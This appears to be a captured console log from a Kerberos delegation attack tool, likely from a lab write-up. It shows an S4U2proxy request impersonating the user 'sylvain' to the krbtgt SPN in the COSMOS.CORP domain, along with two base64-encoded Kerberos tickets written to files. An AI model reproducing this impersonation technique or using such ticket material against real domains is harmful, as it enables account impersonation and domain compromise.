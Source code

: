 ```
[*] base64(ticket.kirbi):

      doIFJDCCBSCgAwIBBaEDAgEWooIERjCCBEJhggQ+MIIEOqADAgEFoQ0bC0NPU01PUy5DT1JQohcwFaAD
      AgEBoQ4wDBsKU0EtVEVTVC0wMaOCBAkwggQFoAMCARehAwIBA6KCA/cEggPzms/db1gH4LE4b/ppQBLh
      4B7GcbhGp109Bo+4jO4PWlZF+Lzm6c4N4eilq2q+pspu83CKJrQSWcsdodvebTCrWhBYmByBldWJjSK1
      c3061agmpc8EZ0p6Xbqu4G/ZqQpWzKTRolOrPby/uR/6j4gtEInDxrrA2yy2wddiownu+ti9AGw2eFii
      h4TXb+1bDnWUAVKB6ePHSjGbEBiuNHvhEx4bgKmwkJOKImWf4iXRqMbRy207h4eRsN6S/t8q04r3YpIG
      NOIGiHO1F7lwr7m/kfMqEktHW5Xs3mzvBHUn9hp9hwlc3KerO10FRZhdK/UcDL6pxBna/meWEM1TK9z/
      onLVJhi/5rlCaQzwlnTFGRxNnFnIQbmINWgYCotJ09wwbjl+KNqoTtXrvKngPpEroO4noIwCbD0Xj/Cb
      EAtrbG3niO7yfmHYlMUVXVXG7aAl6ygfqtp/maY9+BuC3N9kL1bPqAnyi7s0AVueLzJRZyjzSrZ1pL+X
      KQAKlSfcPT0e1IIAYtUOehUluhpKMu62zA8kJRS0RV1tttid1/BnZ+hsRIMarpmwLkGjwe0bdFIYc/AX
      6ks6If0VknpsKGRK2yQfBerGnMu6rJvC6BD0qCgU6U1EYHu/E4HttNDc4etuKXvAx28jm0+RuMWm4tmt
      3NlXTAeMyjzzRrQrdh9bzAi/DCILF06/g6RCrbViP9eqo5aUUyGE8d59RW/KY9I2Nw86yPciguWOb7tp
      hXVd0jmPIyLD9BK6Oizq8KBrI67VQ7K82jCBwhR/y9VOssGCWuOwv2lBwoPu3GW4e9nBWb/jJ7RaCzyH
      hMRTxMhUVRm2SqZ7xsoWD+HGpz5JKOWkC5yZ1jJzW3uhCNt4/SxAJbKoJJVur6uGdn33opruz2umgkMr
      nTsdQHm853WJjUduz8ZGMXqypOEBW0vySR7EP+vTPiblc7akHqNY7T5wghU+7yUHlpJ224piffnmpruP
      tp5O5uvJogfmiO/chwkNdttm7+ISqu8b4ATBo6GJPDuVT3RGNuDqUG6kP73RovGY2CY7zW8bpcihsh6V
      SsvTiwc9tjpue8KGdUbULTLmLuQA2N23h+ptoI39prdopBTqYK6CNdeeRlqFMI/Vlh/mAI3h+KH6zJwm
      XrmO0I5Xj/5+YuG62cZyNkET9x4ECmBkTCNxlwgDpxTuSPlrtnHB+SjdiZ3Y8mm0AIQkBDuehNqy5HID
      s22e3AVdLIKbOxr34RgCaOpwabukSjerdvEdCgt+iDSD91Q1Cn4uCqYxJMF1OjqPPUFO8gPyEWWm8XLC
      p2H/kjf2TgeCMNncDacGw5hrMug74b22YVdDJdNDnac8UAYMo4HJMIHGoAMCAQCigb4Egbt9gbgwgbWg
      gbIwga8wgaygGzAZoAMCARehEgQQGI1VSYNbK/ijwqlbthXBraENGwtDT1NNT1MuQ09SUKIUMBKgAwIB
      CqELMAkbB3N5bHZhaW6jBwMFAEChAAClERgPMjAyMjAxMDcxNDM3MzNaphEYDzIwMjIwMTA4MDAyNjMw
      WqcRGA8yMDIyMDExNDE0MjYzMFqoDRsLQ09TTU9TLkNPUlCpFzAVoAMCAQGhDjAMGwpTQS1URVNULTAx


[*] Ticket written to sylvain_sylvain_to_SA-TEST-01@COSMOS.CORP

[*] Impersonating user 'sylvain' to target SPN 'krbtgt/COSMOS'
[*] Using domain controller: 127.0.0.1
[*] Building S4U2proxy request for service: 'krbtgt/COSMOS'
[*] Sending S4U2proxy request
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'krbtgt/COSMOS':

      doIFzDCCBcigAwIBBaEDAgEWooIE6jCCBOZhggTiMIIE3qADAgEFoQ0bC0NPU01PUy5DT1JQohswGaAD
      AgECoRIwEBsGa3JidGd0GwZDT1NNT1OjggSpMIIEpaADAgEXoQMCAQ2iggSXBIIEk/qeoVkQOmVohbiA
      BtYDcBNZ1FjK0ptLzS5uX8i+/svoU18E4kIOSHHoDPPrDI5L7zMB+mLEfi9tXxoWs9PhvlhCD/8xDL8v
      jxrdUPfF3YxlRt1F6d7H15a5xVfaqz9L95NZ+dBD53u4Fk/0M4C7BYlD+krWyvYVT5G3S8BivZBeZbbS
      oOFMV7YlFbVKzbaNl8JH9KrTY0TXjZeOrLKJruLgP0+nhCWfWeSh4d21lyxH+OoHOch+5/mpBS4DBPGp
      /ZVt9ccyf8N1+acIjfll6zr0wOW4MJtCI4scakG1c4uDASHF7IK0x5gjoJk+W4pNC9P3VJF2tSQrPE4b
      RleyxY+suyIh0Xfv0p1d879ay71ETJxtTQi7xbMx5XM7kmB85zdAmAK20X8FygjzgIBiTIY6HUZKvFw4
      C2tM9T0VkyXCe/BCMaijBPyO/lLKi/bEcQovnng2lUXALmiBeqHNXmt59wnXsqa3qCuq97Q6aTONDwsU
      NTaoegJUa7uWVVitR6dl2W4gTmckW4GLB1g1FQVhjwgDEJHJ18s20B8Wdewq4+qMYDrd6P3rmDfQJsKH
      ayRajc3MLXNrw3Y0Tn5X8BVIr5Qb3/n62a0BR8oBwbY9l9nlVNENrLBqD48LPHlL9qvqT7v+eyPgiTTo
      2oqU7v5yjNfOul8PfCIi3zP1RIl/MXZNCm+IL6AVeaCdkWEVmBDfv/Z1Xo26RNBLx24hnJvCiwuVkJcg
      7bk64QOTO7uui+ojiU+hv9zIIjoSwa5ak0x0rkClLGIQUTB7mirobt9Z8qsRPTGZcydpvvQrYcPEQRa+
      zHM40jDL2MmphlG7bblXgM1nffbUeOcAZQADKd02QPq32O3HVkJ3o5BYt34Oy/6bwr16n7FFDYLRSHge
      ntYsvZ/+D3CzvIk5UEh/2867AMwRzggl27SK1fTjzmbPTqIJeXIPedWuBA2FAiylZJBxemUZfoBOEy/e
      BTQ8UYvTD1EMJX53vtPOaaSlMpecTWf7iX8zYmA+WoMZJOE4WJf7GPaO2SS/CfqvSoJxHO63yrWetNpj
      SAHd/D+zQzcwjmWwqUkwPtPpbFjREC3X83/IPSs5NsSd/jmZz5vTZ+T8lbeanFmOCIXWW3zcwyFVrDJh
      h4i40ogU2OvSjyyfWAFM8DSO+EWX/m8UFw7+wG9OekB6E6hM6nY0zglwAPR2brIbLjMglfwn4OQDROur
      yZzNFMLv7IIc886HHjfmiFc8q+bKjmrTiUXqthC8kYfRxhfDEEhk/7pTLKBw2vFflhJtjyYiRmCNmeXE
      cdtXvrGJW2+BrHUfd1awoW28VSih44wqgtGLwhQzvIFHCWcFLIqhTvMCJSRl6k8CWnOwtcHFYzSj86On
      x2M7xfW7MuiI4y1nUfc9qjj1GA6P7a1wr7ZoZFwOfH5p3C2Gu8W+dncv1m1Os6MJ+lnHLnhqCEtfTEaH
      DmK7bgqx3yt9hmwoavaSTKH3WDirF615sKTHYfcCyT2I2ae8fXJ/coWiROJaUDzvjsz+3QeAnPiRIUQL
      We85isvtqlJ09BBxNJH4VT5Wejqjgc0wgcqgAwIBAKKBwgSBv32BvDCBuaCBtjCBszCBsKAbMBmgAwIB
      F6ESBBBn0BC2x8Qdjgk8UItLuM5RoQ0bC0NPU01PUy5DT1JQohQwEqADAgEKoQswCRsHc3lsdmFpbqMH
      AwUAQKEAAKURGA8yMDIyMDEwNzE0MzczM1qmERgPMjAyMjAxMDgwMDI2MzBapxEYDzIwMjIwMTE0MTQy
      NjMwWqgNGwtDT1NNT1MuQ09SUKkbMBmgAwIBAqESMBAbBmtyYnRndBsGQ09TTU9T

[*] Ticket written to sylvain_krbtgt_COSMOS
```